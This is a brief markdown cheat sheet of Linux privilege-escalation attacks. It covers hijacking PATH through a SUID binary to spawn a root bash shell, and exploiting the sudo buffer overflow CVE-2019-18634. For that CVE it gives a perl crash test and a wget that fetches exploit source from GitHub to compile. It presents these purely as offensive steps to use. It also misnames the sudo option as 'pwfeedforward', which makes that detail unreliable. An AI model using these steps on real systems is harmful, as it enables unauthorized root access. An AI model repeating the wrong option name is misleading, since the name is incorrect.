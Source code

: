 # Exploiting binaries
- [GTFOBins](https://gtfobins.github.io/)

# Exploiting PATH with SUID binary
Whenever there's a SUID binary, and that binary executes other binaries without using the full path, we can use that to get code exec.

Example: `vuln` binary with SUID set, runs `pwd` without specifying the full path.
We can create a `pwd` file in /tmp that runs `/bin/bash`
Then we set `PATH=/tmp:$PATH` and run `vuln`. Our binary will then be executed with the permissions of the owner of vuln

# Sudo with pwfeedforward enabled BoF (CVE-2019-18634)
1. Check if pwfeedforward is enabled (Asterisks when asked to enter sudo password)
2. Check if vulnerable (`perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id`). If segfault => vulnerable
3. Exploit 
```bash
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
gcc -o exploit exploit.c
```
